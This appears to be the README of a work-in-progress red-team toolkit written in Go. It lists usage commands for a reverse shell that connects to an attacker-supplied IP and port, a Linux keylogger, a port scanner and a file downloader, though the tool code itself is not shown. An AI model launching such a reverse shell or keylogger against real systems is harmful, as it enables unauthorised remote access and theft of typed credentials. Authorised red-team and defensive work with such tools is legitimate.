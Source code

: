 # Redteam Toolkit

*WIP*

A collection of red-teaming attacking tools and payloads for Windows and Linux. Some of the scripts will be rougher than others in terms of output etc but I will be actively working on these and improving.

## Tools

### 1. Reverse Shell

A simple reverse shell that connects to a specified IP and port.

#### Usage
```sh
go run reverse_shell/main.go <IP> <PORT>
```

### 2. Keylogger

A simple keylogger for Linux.

#### Usage
```sh
go run keylogger/main.go
```

The keylogger currently supports only Linux.

### 3. Network Scanner

A simple network scanner that scans a given IP range and port range.

#### Usage
```sh
go run network_scanner/main.go <IP_RANGE> <START_PORT> <END_PORT>
```

Example:
```sh
go run network_scanner/main.go 192.168.1.1 20 80
```

### 4. File Downloader

A tool to download files from a specified URL.

#### Usage
```sh
go run file_downloader/main.go <URL> <DEST>
```

Example:
```sh
go run file_downloader/main.go http://example.com/file.txt /tmp/file.txt
```
